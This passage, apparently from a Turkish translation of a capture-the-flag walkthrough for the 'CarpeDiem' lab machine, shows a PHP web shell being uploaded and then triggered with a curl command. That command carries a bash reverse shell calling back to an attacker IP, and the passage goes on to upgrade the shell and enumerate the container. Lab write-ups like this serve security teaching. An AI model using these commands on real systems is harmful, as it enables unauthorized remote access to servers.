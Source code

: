 Bu isteği bir PHP web shell içerecek şekilde güncelleyeceğim. Görünüşe göre, dosyanın adını koruyor ve ismin önüne bir sayı ekliyor. Bu yüzden, dosya adını **.php** ile bitecek şekilde değiştireceğim: 

It works:

![Pasted image 20250108040415.png](/img/user/resimler/Pasted%20image%2020250108040415.png)


### Shell

Komut olarak basit bir [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw) koyacağım ve göndereceğim:

```
oxdf@hacky$ curl -G --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/10.10.14.6/443 0>&1"' http://portal.carpediem.htb/uploads/1669663920_0xdf.php
```


Bir **nc** dinleyicisinde bir shell elde edilir:

```
oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.167 46920
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
www-data@3c371615b7aa:/var/www/html/portal/uploads$ 
```

[Script / stty](https://www.youtube.com/watch?v=DqE6DxqJg8Q) numarası ile shell'i yükselteceğim:

```
www-data@3c371615b7aa:/var/www/html/portal/uploads$ script /dev/null -c bash
script /dev/null -c bash
Script started, output log file is '/dev/null'.
www-data@3c371615b7aa:/var/www/html/portal/uploads$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
reset: unknown terminal type unknown
Terminal type? screen
www-data@3c371615b7aa:/var/www/html/portal/uploads$ 
```


### CarpeDiem'de hflaccus olarak Shell

### Host Enumeration

#### Docker

Bu hostta pek bir şey yok ve açıkça bir Docker konteyneri:

* Host adı CarpeDiem değil rastgele bir string.
* System root'ta bir .dockerenv dosyası var.
* ifconfig ve ip gibi yaygın komutlar eksik.
